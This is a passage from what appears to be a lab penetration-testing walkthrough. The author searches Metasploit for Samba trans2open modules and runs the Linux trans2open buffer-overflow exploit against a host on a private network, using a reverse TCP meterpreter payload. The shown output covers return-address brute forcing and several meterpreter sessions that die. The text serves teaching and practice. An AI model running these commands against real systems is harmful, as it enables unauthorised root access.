 There are a couple of known exploits that should work with Samba 2.2.1a. First of them shows the remote Samba server is vulnerable to a buffer overflow when it processes the function trans2open(). An attacker may exploit it to gain a root shell on this host. Let's get back to the console with Metasploit and try to find the first one.

```bash
msf6 auxiliary(scanner/smb/smb_version) > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```

As we already know by Nmap scanning - the operating system is Linux 2.4.X, so let's use [exploit/linux/samba/trans2open](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/samba/trans2open){:target="_blank" rel="noopener"} now, set the remote host again, and run the module with default payload.

```bash
msf6 auxiliary(scanner/smb/smb_version) > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > set rhost 192.168.0.14
rhost => 192.168.0.14
msf6 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.0.10:4444
[*] 192.168.0.14:139 - Trying return address 0xbffffdfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffcfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffbfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.0.14
[*] 192.168.0.14 - Meterpreter session 1 closed.  Reason: Died
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.0.14:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.0.14
[*] 192.168.0.14 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 192.168.0.14:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 192.168.0.14
[*] 192.168.0.14 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.0.14:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 192.168.0.14
[*] 192.168.0.14 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 192.168.0.14:139 - Trying return address 0xbffff6fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff5fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff4fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff3fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff2fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff1fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff0fc...
```